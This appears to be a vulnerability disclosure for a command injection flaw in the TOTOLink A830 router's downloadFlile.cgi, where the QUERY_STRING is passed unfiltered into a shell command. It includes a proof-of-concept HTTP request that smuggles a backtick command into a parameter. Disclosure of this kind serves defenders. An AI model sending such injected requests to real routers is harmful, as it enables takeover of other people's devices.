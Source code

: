 # TOTOLink A830 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: TOTOLINK (https://www.totolink.net/)
- **Products**: WiFi Router, such as A830 V5.9c.4729_B20191112
- **Firmware download address:**https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/184/ids/36.html



## Description

### 1.Product Information:

TOTOLink A830 V5.9c.4729_B20191112 router, the latest version of simulation overview：

![Figure 1 Update date of the latest version of the firmware](images/image-20220213003111646.png)

### 2. Vulnerability details

![image-20220213003615239](images/image-20220213003615239.png)

TOTOLINK A830 V5.9c.4729_B20191112 was discovered to contain a command injection vulnerability in the "Main" function. This vulnerability allows attackers to execute arbitrary commands via the QUERY_STRING parameter.

![Figure 2 Local of the vulnerability](images/image-20220212024252932.png)

We can see that the os will get ` QUERY_STRING`  without filter splice to the string `echo QUERY_STRING:%s >/tmp/download` and execute it. So, If  we can control the `QUERY_STRING`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
GET /cgi-bin/downloadFlile.cgi?payload=`ls>../1.txt` HTTP/1.1 
Host: 192.168.111.12 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Connection: keep-alive 
Upgrade-Insecure-Requests: 1 
Cache-Control: max-age=0
```

![Figure 3 POC attack effect](images/22.png)

![Figure 4 POC attack effect](images/33.png)
